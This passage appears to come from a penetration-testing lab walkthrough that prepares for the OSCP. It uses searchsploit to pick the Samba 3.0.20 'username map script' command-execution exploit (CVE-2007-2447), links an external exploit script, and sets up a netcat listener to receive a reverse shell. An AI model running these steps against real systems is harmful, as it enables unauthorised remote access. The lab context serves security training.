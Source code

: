 Let's check the Samba version that we got from the nmap scan against the exploitdb:

```
└─$ searchsploit samba 3.0.20
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                         | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploi | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                          | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                          | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                  | linux_x86/dos/36741.py
------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

We don't want a DoS, and the target is running version 3.0.20, so that rules out the bottom three options. The "Format String / Security Bypass" option does not provide much detail, so let's look at the Metasploit option a bit closer.&#x20;

## Gaining Access

A quick review of the "Username map script" page on [exploitdb.com](https://www.exploitdb.com) confirms that this exploit is documented as CVE-2007-2447.

{% embed url="https://www.exploit-db.com/exploits/16320" %}

Since we are preparing for the OSCP, we need to find a way to exploit the target without using Metasploit.&#x20;

> NOTE: We recommend attempting to exploit the target manually first, and then to also do it via Metasploit. There are plenty of walkthroughs online which use Metasploit, and so it won't be covered here.

A quick google search reveals the following page which contains an exploit script that we can examine and run manually:

{% embed url="https://github.com/amriunix/CVE-2007-2447" %}

After downloading and reviewing the script, it appears to be safe to run against the target. First, setup a netcat listener:

```
└─$ nc -nvlp 8002
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8002
Ncat: Listening on 0.0.0.0:8002

```
